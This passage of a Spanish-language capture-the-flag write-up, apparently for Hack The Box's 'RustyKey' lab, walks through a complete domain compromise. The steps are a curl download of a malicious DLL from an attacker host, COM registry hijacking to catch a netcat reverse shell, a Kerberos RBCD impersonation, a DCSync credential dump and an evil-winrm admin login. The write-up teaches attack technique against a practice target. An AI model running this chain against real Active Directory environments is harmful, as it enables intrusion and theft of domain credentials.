Este dll lo paso a la maquina que tengo acceso al registro zip
~~~bash
PS C:\users\Public\documents> curl http://10.10.14.200/shell.dll -o shell.dll
curl http://10.10.14.200/shell.dll -o shell.dll
~~~
Y finalmente lo agrego a la configuración del registro.
~~~bash
PS C:\users\Public\documents> reg add "HKEY_CLASSES_ROOT\CLSID\{23170F69-40C1-278A-1000-000100020000}\InprocServer32" /ve /d "C:\users\public\documents\shell.dll" /f

The operation completed successfully.
~~~
Ahora abro un escucha esperando a que alguien descomprima algo.
~~~bash
rlwrap -cAr nc -nvlp 4411                                                                                
listening on [any] 4411 ...
connect to [10.10.14.200] from (UNKNOWN) [10.10.11.75] 53735
Microsoft Windows [Version 10.0.17763.7434]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows>whoami
whoami
rustykey\mm.turner
~~~
Como se puede ver, el usuario "mm.turner" fue victima del dll malicioso que puse.

### Ataque RBCD Kerberos
Revisando bloodhound, este usuario pertenece al grupo "DELEGATIONMANAGER" que a su vez tiene permisos "AddAllowedToAct" sobre el dominio.

Por lo que se puede aprovechar eso para poder suplantar a otro usuario.

Segun el ataque, primero se debe agregar a una cuenta de servicio o maquina para que pueda usarse en el flujo S4U2Self→S4U2Proxy para que el servicio que representa sea autorizado a “presentarse como” otros usuarios ante servicios en DC.
Como la unica que tenemos es "IT-COMPUTER3", entonces agrego a esa desde mi sesion como mm.turner
~~~bash
PS C:\Windows> Set-ADComputer -Identity DC -PrincipalsAllowedToDelegateToAccount IT-COMPUTER3$
~~~
Luego ya desde mi maquina atacante, con el ticket de "IT-COMPUTER3" puedo solicitar un ticket de otro usuario.
Primero volviendo a colocar el ticket en cache.
~~~bash
┌──(kali㉿kali)-[~/htb/rustykey/content]
└─$ export KRB5CCNAME=$(pwd)/mssqlsvc.ccache
~~~
Primero intentare tomar el tgt del usuario admin.
~~~bash
getST.py -spn 'cifs/dc.rustykey.htb' -impersonate 'administrator' -dc-ip 10.10.11.75 -k 'rustykey.htb/IT-COMPUTER3$:Rusty88!'
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Impersonating administrator
/home/kali/.local/bin/getST.py:380: DeprecationWarning: datetime.datetime.utcnow() is deprecated and scheduled for removal in a future version. Use timezone-aware objects to represent datetimes in UTC: datetime.datetime.now(datetime.UTC).
  now = datetime.datetime.utcnow()
/home/kali/.local/bin/getST.py:477: DeprecationWarning: datetime.datetime.utcnow() is deprecated and scheduled for removal in a future version. Use timezone-aware objects to represent datetimes in UTC: datetime.datetime.now(datetime.UTC).
  now = datetime.datetime.utcnow() + datetime.timedelta(days=1)
[*] Requesting S4U2self
/home/kali/.local/bin/getST.py:607: DeprecationWarning: datetime.datetime.utcnow() is deprecated and scheduled for removal in a future version. Use timezone-aware objects to represent datetimes in UTC: datetime.datetime.now(datetime.UTC).
  now = datetime.datetime.utcnow()
/home/kali/.local/bin/getST.py:659: DeprecationWarning: datetime.datetime.utcnow() is deprecated and scheduled for removal in a future version. Use timezone-aware objects to represent datetimes in UTC: datetime.datetime.now(datetime.UTC).
  now = datetime.datetime.utcnow() + datetime.timedelta(days=1)
[*] Requesting S4U2Proxy
[-] Kerberos SessionError: KDC_ERR_BADOPTION(KDC cannot accommodate requested option)
[-] Probably SPN is not allowed to delegate by user IT-COMPUTER3$ or initial TGT not forwardable
~~~
Al parecer esto no es posible, asi que buscando otro usuario importante, veo que existe uno que es "backupadmin" que esta directamente conectada a un grupo importante de administrators y por ende puede realizar un dcsync.

~~~bash
┌──(kali㉿kali)-[~/htb/rustykey/content]
└─$ getST.py -spn 'cifs/dc.rustykey.htb' -impersonate 'backupadmin' -dc-ip 10.10.11.75 -k 'rustykey.htb/IT-COMPUTER3$:Rusty88!'
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Impersonating backupadmin
/home/kali/.local/bin/getST.py:380: DeprecationWarning: datetime.datetime.utcnow() is deprecated and scheduled for removal in a future version. Use timezone-aware objects to represent datetimes in UTC: datetime.datetime.now(datetime.UTC).
  now = datetime.datetime.utcnow()
/home/kali/.local/bin/getST.py:477: DeprecationWarning: datetime.datetime.utcnow() is deprecated and scheduled for removal in a future version. Use timezone-aware objects to represent datetimes in UTC: datetime.datetime.now(datetime.UTC).
  now = datetime.datetime.utcnow() + datetime.timedelta(days=1)
[*] Requesting S4U2self
/home/kali/.local/bin/getST.py:607: DeprecationWarning: datetime.datetime.utcnow() is deprecated and scheduled for removal in a future version. Use timezone-aware objects to represent datetimes in UTC: datetime.datetime.now(datetime.UTC).
  now = datetime.datetime.utcnow()
/home/kali/.local/bin/getST.py:659: DeprecationWarning: datetime.datetime.utcnow() is deprecated and scheduled for removal in a future version. Use timezone-aware objects to represent datetimes in UTC: datetime.datetime.now(datetime.UTC).
  now = datetime.datetime.utcnow() + datetime.timedelta(days=1)
[*] Requesting S4U2Proxy
[*] Saving ticket in backupadmin@cifs_dc.rustykey.htb@RUSTYKEY.HTB.ccache
~~~
Asi efectivamente se puede obtener su ticket tgt.
### Ataque DCSync
Con esto ya se puede importar el ticket en cache y realizar un ataque DCSync para sacar el hash NTLM del administrator.
~~~bash
┌──(kali㉿kali)-[~/htb/rustykey/content]
└─$ export KRB5CCNAME=$(pwd)/backupadmin@cifs_dc.rustykey.htb@RUSTYKEY.HTB.ccache
┌──(kali㉿kali)-[~/htb/rustykey/content]
└─$ klist
Ticket cache: FILE:/home/kali/htb/rustykey/content/backupadmin@cifs_dc.rustykey.htb@RUSTYKEY.HTB.ccache
Default principal: backupadmin@rustykey.htb

Valid starting       Expires              Service principal
11/05/2025 02:36:38  11/05/2025 08:54:53  cifs/dc.rustykey.htb@RUSTYKEY.HTB

┌──(kali㉿kali)-[~/htb/rustykey/content]
└─$ impacket-secretsdump -k -no-pass -dc-ip 10.10.11.75 -just-dc-user Administrator 'rustykey.htb/backupadmin'@dc.rustykey.htb 
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:f7a<SNIP>c26:::
[*] Kerberos keys grabbed
Administrator:des-cbc-md5:e007705d897310cd
[*] Cleaning up... 
~~~
Con el hash NTLM, se puede sacar su ticket tgt y entrar por winrm.
~~~bash
──(kali㉿kali)-[~/htb/rustykey/content]
└─$ impacket-getTGT -dc-ip 10.10.11.75 rustykey.htb/administrator -hashes ":f7a<SNIP>c26"
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Saving ticket in administrator.ccache

┌──(kali㉿kali)-[~/htb/rustykey/content]
└─$ export KRB5CCNAME=$(pwd)/administrator.ccache 
~~~

---
## Root Flag

> **Valor de la Flag:** `<Averiguelo usted mismo>`

Con el ticket, se puede entrar como administrator usando winrm como se vio que esta abierto y obtener la root flag.
~~~bash
evil-winrm -i dc.rustykey.htb -r rustykey.htb                    
                                        
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents> cd ..
*Evil-WinRM* PS C:\Users\Administrator> tree /f
Folder PATH listing
Volume serial number is 00BA-0DBE
C:.
ÃÄÄÄ3D Objects
ÃÄÄÄContacts
ÃÄÄÄDesktop
³       root.txt
³
ÃÄÄÄDocuments
ÃÄÄÄDownloads
ÃÄÄÄFavorites
³   ³   Bing.url
³   ³
³   ÀÄÄÄLinks
ÃÄÄÄLinks
³       Desktop.lnk
³       Downloads.lnk
³       script_01.ps1
³       script_02.ps1
³
ÃÄÄÄMusic
ÃÄÄÄPictures
ÃÄÄÄSaved Games
ÃÄÄÄSearches
ÀÄÄÄVideos
*Evil-WinRM* PS C:\Users\Administrator> cd desktop
*Evil-WinRM* PS C:\Users\Administrator\desktop> type root.txt
<Encuentre su propia root flag>
~~~
🎉 Sistema completamente comprometido - Root obtenido

